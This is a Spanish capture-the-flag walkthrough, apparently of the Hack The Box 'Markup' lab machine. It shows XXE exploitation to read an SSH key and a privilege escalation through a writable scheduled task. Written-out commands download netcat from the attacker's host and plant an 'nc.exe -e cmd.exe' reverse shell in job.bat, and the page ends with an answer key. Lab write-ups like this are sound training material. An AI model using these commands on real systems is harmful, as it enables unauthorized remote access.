 # Markup

### 1. 📝 **Introducción**

* **Nivel de Dificultad**: Muy fácil.
* **Tags:**&#x20;
  * **Reconnaissance (Reconocimiento):** Fase crucial en el proceso de pruebas de penetración, donde se recopila información detallada sobre el objetivo. Este proceso incluye el escaneo de puertos, el análisis de los servicios disponibles, la identificación de vulnerabilidades y la recopilación de datos sobre las configuraciones del sistema. Permite a los atacantes descubrir posibles vectores de entrada.
  * **Apache**: Servidor web que puede ser explotado si no se aplica la configuración adecuada o si no se actualizan sus módulos y componentes.
  * **SSH**: Protocolo seguro para acceder de manera remota a servidores, pero con configuraciones débiles (como claves predeterminadas o contraseñas débiles) puede ser una puerta de entrada.
  * **PHP**: Lenguaje de programación común en aplicaciones web; si no se configura de manera segura, puede ser vulnerable a inyecciones y otros ataques.
  * **Scheduled Job Abuse**: Los trabajos programados mal configurados o sin restricción de privilegios pueden ser explotados para ejecutar comandos maliciosos o obtener acceso a recursos restringidos.
  * **Arbitrary File Upload**: Vulnerabilidad en la que los atacantes cargan archivos maliciosos, como shells PHP, para ejecutar código en el servidor y obtener acceso no autorizado.
  * **XXE Injection**: Ataque de inyección de XML External Entity (XXE) que explota la capacidad de procesamiento de XML para acceder a archivos locales o realizar otros ataques como el denegado de servicio.
  * **Weak Permissions**: Permisos mal configurados en el sistema de archivos pueden permitir a usuarios no autorizados acceder o modificar archivos sensibles, facilitando la escalada de privilegios o la exfiltración de datos.

### 2. 🛠️ **Entorno**

Nos descargamos nuestra VPN y nos conectamos.

```
sudo openvpn nombre_del_archivo.vpn
```

Iniciamos la máquina y verificamos la conexión.

```bash
ping -c 1 10.129.95.192
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Observamos que tenemos conexión y que es una máquina **Windows** ya que su **ttl=127**.

### 3. 🔍 **Reconocimiento**

A continuación, se realiza el comando:

```bash
nmap -sCV -Pn 10.129.95.192
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 4. 🚪 **Acceso Inicial**

Como podemos observar durante el escaneo, los puertos **80** (**HTTP**), **22** (**SSH**) y **443** (**HTTPS**) están abiertos. A continuación, se indagará más sobre estos servicios.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con las credenciales por defecto **admin**:**password**.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vamos al apartado de **Order** e interceptamos las peticiones. Podemos observar que hay un XML External Entity.

{% embed url="https://book.hacktricks.wiki/en/pentesting-web/xxe-xee-xml-external-entity.html#main-attacks" %}

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vamos a leer la clave privada de SSH del usuario.

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos la copiamos y le damos permisos para loguearnos.

```bash
chmod 600 id_rsa
ssh -i id_rsa daniel@10.129.95.192
```

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Buscamos lo que nos preguntan.

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

En este escenario, **job.bat** es un archivo utilizado para programar una tarea en Windows, que ejecuta el comando **wevtutil.exe** para registrar eventos. Este archivo es ejecutado de manera regular como parte de una tarea programada.

El objetivo es actualizar este proceso de **job.bat** de un script de shell simple a un script de PowerShell y verificar los procesos en ejecución con el comando `ps` en PowerShell.

```bash
icacls job.bat
```

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al observar que el `(F)` junto a **Users** en los permisos significa que **todos los usuarios** pueden modificar el archivo **job.bat**, se puede explotar esto para agregar un comando de **netcat** en el archivo. De esta forma, cada vez que la tarea programada se ejecute, la máquina víctima se conectará de vuelta a la máquina atacante.

En nuestra máquina atacante.

```bash
wget https://github.com/vinsworldcom/NetCat64/releases/tag/1.11.6.4/nc64.exe
python3 -m http.server
```

En la máquina víctima.

```bash
curl -o nc.exe http://10.10.16.35:8000/nc.exe
```

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ejecutamos para generar una Reverse Shell.

```bash
echo C:\Log-Management\nc.exe -e cmd.exe 10.10.16.35 1234 > C:\Log-Management\job.bat
```

Nos ponemos en escucha y recibimos la conexión.

### 5. 🔑 **Captura de la Flag**

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 6. ❓Preguntas

#### **Tarea 1**

**¿Qué versión de Apache está corriendo en el puerto 80 del objetivo?**\
**Respuesta:** 2.4.41

#### **Tarea 2**

**¿Qué combinación de nombre de usuario:contraseña inicia sesión con éxito?**\
**Respuesta:** admin:password

#### **Tarea 3**

**¿Cuál es la palabra en la parte superior de la página que acepta la entrada del usuario?**\
**Respuesta:** order

#### **Tarea 4**

**¿Qué versión de XML se utiliza en el objetivo?**\
**Respuesta:** 1.0

#### **Tarea 5**

**¿Qué significa el acrónimo XXE / XEE?**\
**Respuesta:** XML External Entity

#### **Tarea 6**

**¿Qué nombre de usuario podemos encontrar en el código HTML de la página web?**\
**Respuesta:** Daniel

#### **Tarea 7**

**¿Qué archivo se encuentra en la carpeta Log-Management en el objetivo?**\
**Respuesta:** job.bat

#### **Tarea 8**

**¿Qué ejecutable se menciona en el archivo mencionado antes?**\
**Respuesta:** wevtutil.exe
